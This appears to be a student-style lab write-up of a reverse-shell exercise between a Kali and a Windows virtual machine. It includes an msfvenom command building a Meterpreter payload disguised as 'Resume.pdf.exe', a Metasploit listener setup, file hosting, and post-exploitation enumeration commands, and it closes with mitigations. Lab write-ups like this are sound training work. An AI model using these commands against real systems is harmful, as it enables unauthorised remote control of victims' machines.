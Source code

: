 # Ethical Hacking and Reverse Shell Analysis

## **Project Report**
Ethical Hacking and Reverse Shell Analysis


---

### **Project Title**:  
Setting Up and Analyzing a Reverse Shell in a Simulated Internal Network

---

### **Introduction**

This project explores the setup and execution of a reverse shell attack in a controlled environment. By simulating such a scenario, cybersecurity professionals can better understand how attackers exploit vulnerabilities to gain unauthorized access to systems. The insights gained from this exercise will help strengthen defensive strategies and promote awareness of potential risks. All activities were conducted ethically within an isolated environment.

---

### **Objectives**

1. Simulate an internal network using virtual machines.
2. Perform reconnaissance on a target system to identify potential vulnerabilities.
3. Create and execute a reverse shell payload.
4. Analyze post-exploitation activities using Meterpreter.
5. Identify mitigation strategies to protect against reverse shell attacks.

---

### **Environment Setup**

1. **Virtual Machines Configuration**:
   - **Windows VM**: IP address `192.168.10.20`![Screenshot 2024-12-26 232122](https://github.com/user-attachments/assets/78ef26d2-4190-4236-9596-cc5534ec111a)


   - **Kali Linux VM**: IP address `192.168.10.21`![Screenshot 2024-12-26 232716](https://github.com/user-attachments/assets/9f6df1d7-40c6-4a64-bcf7-e3ad8d90904f)


2. **Network Validation**:
   - Ensure both VMs are connected to the same network by performing ping tests:
![Screenshot 2024-12-26 232951](https://github.com/user-attachments/assets/32d472f5-5abc-476e-bc42-d8fd9a61c892)



### **Steps and Execution**

#### **Step 1: Reconnaissance**

- Use `nmap` to scan the Windows VM for open ports and services:
  ```bash
  nmap -A 192.168.10.20 -Pn

![Screenshot 2024-12-27 000525](https://github.com/user-attachments/assets/1f87202b-8081-45e1-9072-7b69632842d5)


#### **Step 2: Payload Creation**

A reverse shell payload is a malicious program that initiates a connection back to the attacker’s machine, allowing remote command execution. It bypasses traditional security measures like firewalls by establishing the connection from inside the target network.
![Screenshot 2024-12-27 000844](https://github.com/user-attachments/assets/a21e935b-f80d-4a86-bb59-260c334e6198)
![Screenshot 2024-12-27 001050](https://github.com/user-attachments/assets/831c540f-106a-4a06-85b9-ebe0370c6ea3)


- Generate the payload using `msfvenom`:

  ```bash
  msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.10.21 lport=4444 -f exe -o Resume.pdf.exe
  ```


- Verify the file type:
  ```bash
  file Resume.pdf.exe
  ```
    ![Screenshot 2024-12-27 001727](https://github.com/user-attachments/assets/f9be2c00-db9c-4919-8cc2-62d961b97792)

#### **Step 3: Listener Setup**

- Launch the Metasploit Framework:
  ```bash
  msfconsole
  ```
  ![Screenshot 2024-12-27 001947](https://github.com/user-attachments/assets/976c3bb5-4851-4450-8849-c953736761e0)

- Configure the handler to listen for incoming connections:
  ```bash
  use exploit/multi/handler
  set payload windows/x64/meterpreter/reverse_tcp
  set lhost 192.168.10.21
  set lport 4444
  exploit
  ```
![Screenshot 2024-12-27 002111](https://github.com/user-attachments/assets/01966d26-76d7-440f-876d-211c7d0d2e4f)
![Screenshot 2024-12-27 002553](https://github.com/user-attachments/assets/28d19ec4-c3dd-41ad-bf84-191e38848d45)
![Screenshot 2024-12-27 002610](https://github.com/user-attachments/assets/9a6210f1-20ca-49f6-8bfa-69468b50deac)
![Screenshot 2024-12-27 003330](https://github.com/user-attachments/assets/62709ad6-d480-4a10-a459-4ae6c8e7fae4)
![Screenshot 2024-12-27 003359](https://github.com/user-attachments/assets/276af1ed-0c7c-4a1a-a91a-b5a26e52f5fc)

#### **Step 4: Hosting the File**

- Serve the malicious file using Python’s HTTP server:
  ```bash
  python -m http.server 9999
  ```
![Screenshot 2024-12-27 003528](https://github.com/user-attachments/assets/452b6929-cbf7-46a1-ba8a-3aac55b54c62)

#### **Step 5: Execution on Windows VM**

- Open a web browser in the Windows VM and navigate to:
  ```
  http://192.168.10.21:9999
  ```
  ![Screenshot 2024-12-27 003815](https://github.com/user-attachments/assets/ddf9eb80-e797-4b89-b0ef-65906fddfd0b)

- Download and execute `Resume.pdf.exe` to trigger the reverse shell.
![Screenshot 2024-12-27 003901](https://github.com/user-attachments/assets/8cae4eef-71d2-4304-9226-816e33d8b1ea)
![Screenshot 2024-12-27 003938](https://github.com/user-attachments/assets/b7683fe6-a727-469d-9ccf-46e2571c5c45)
![Screenshot 2024-12-27 004149](https://github.com/user-attachments/assets/7ac7e707-4d75-4abf-9f72-489e0edcf0b2)

#### **Step 6: Post-Exploitation**

- Access the Meterpreter session and execute commands to gather information:
  ```bash
  shell
  net user
  net localgroup
  whoami
  ipconfig
  ```
![Screenshot 2024-12-27 005345](https://github.com/user-attachments/assets/a876fd00-fefd-42a2-bde9-bd6a8400e270)
![Screenshot 2024-12-27 005438](https://github.com/user-attachments/assets/6b1a8f18-e674-4f46-a73c-4f92e4167dec)

#### **Step 7: Monitoring**

- Use `netstat` on the Windows VM to inspect network connections and processes:
  ```bash
  netstat -annob
  ```
![Screenshot 2024-12-27 005006](https://github.com/user-attachments/assets/3fa54750-1737-4190-9516-b9f4ec8ef234)
![Screenshot 2024-12-27 005045](https://github.com/user-attachments/assets/1dd6acd4-c065-407c-a9db-930245d0bff5)

---

### **Observations**

- The payload successfully established a reverse shell connection, illustrating how attackers can remotely control compromised systems.
- Commands executed on the target provided detailed information about system users, administrative groups, and network configurations.
- The `whoami` command confirmed the attacker's access level, indicating potential permissions for further exploitation.
- Active connections and processes observed using `netstat` highlighted channels that could be monitored to detect malicious activity.
- The payload’s performance varied depending on network stability, emphasizing the importance of robust and consistent network configurations during testing.

---

### **Ethical Considerations**

- This exercise was conducted in a secure and controlled environment to ensure no harm was caused to production systems.
- The primary goal is to understand attack methods and use this knowledge to strengthen system defenses.

---
### Skills Learned

- **Network Scanning and Reconnaissance**  
  - Understanding how to identify open ports and vulnerabilities using tools like `nmap`.

- **Payload Development**  
  - Creating and customizing reverse shell payloads with `msfvenom`.

- **Post-Exploitation Techniques**  
  - Executing commands on compromised systems to extract valuable information.

- **Network Monitoring**  
  - Using tools like `netstat` to observe and analyze active connections.

- **Ethical Hacking Practices**  
  - Conducting penetration testing responsibly in a controlled environment.



---
### **Mitigation Strategies**

1. **Network Segmentation**:

   - Isolate critical systems from less secure areas of the network.

2. **Regular Software Updates**:

   - Apply security patches promptly to close known vulnerabilities.

3. **Endpoint Protection**:

   - Use advanced antivirus and endpoint detection solutions to monitor for suspicious activity.

4. **User Training**:

   - Educate users about the risks of phishing and downloading suspicious files.

5. **Firewall and IDS Rules**:

   - Configure firewalls and intrusion detection systems to block unauthorized outgoing traffic.

---

### **Conclusion**

This project highlights the critical need for proactive measures to protect systems against reverse shell attacks. By understanding the techniques used by attackers, cybersecurity professionals can better safeguard networks and educate stakeholders on mitigating risk
